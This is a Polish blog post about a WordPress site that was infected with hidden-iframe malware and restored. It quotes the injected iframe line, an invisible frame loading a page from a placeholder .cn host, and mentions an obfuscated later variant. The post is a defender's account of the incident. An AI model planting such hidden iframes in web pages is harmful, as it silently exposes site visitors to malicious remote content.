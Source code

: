 ```yaml
--- 
layout: plpost
title: "Wordpress 2.8.5, powr\xC3\xB3t, o infekcji s\xC5\x82\xC3\xB3w kilka"
categories: [polish, wordpress]
wordpress_id: 219
wordpress_url: http://kwpolska.co.cc/?p=219
---
```

**Nie tylko o powrocie bloga. Informacje o Ruskiej infekcji ramkowej (.cn).** 
Po kilkudniowej nieobecności spowodowanej Ruską Infekcją Ramkową blog powraca do życia. Wszystkie wpisy wróciły na swoje miejsca, blog zmienił wygląd. Sam silnik został zaktualizowany do wersji 2.8.5. Ale to nie jest najważniejsza część wpisu.

Infekcja schowanej ramki, ochrzczona przeze mnie jako **Ruska Infekcja Ramkowa** zmieniła się. Zaczęło się od wirusa edytującego wszystkie pliki .php, .html, .phpX, .shtml, .phtml i wiele więcej w celu doklejenia ramki:

`<iframe src="http://X.cn/img/index.php" style="display: none;" />` 
Tej wersji zapobiegało się bardzo prosto - wystarczyło czyszczenie plików ręcznie (lub przywrócenie z backupu) i komputera. Infekcja była groźna wszędzie i wszędzie miała taki sam charakter. Przeglądarki jednakże blokują złośliwy kod. Następna wersja jest już gorsza. Infekcję rozpoznają mądrzejsze przeglądarki. Kod HTML zaczyna się od

`/* Warning: Opera Only */` 
- potem znajdował się zaszyfrowany skrypt. Miał on po rozszyfrowaniu taką samą postać, jak listing 1, ale jego jedyną drogą rozprzestrzeniania się był nie tylko schemat A (KTÓRY ZABRALI), infekcja na mój serwer dostała się przez exploit (lukę). Co z wirusem będzie dalej okaże się w najbliższej przyszłości.
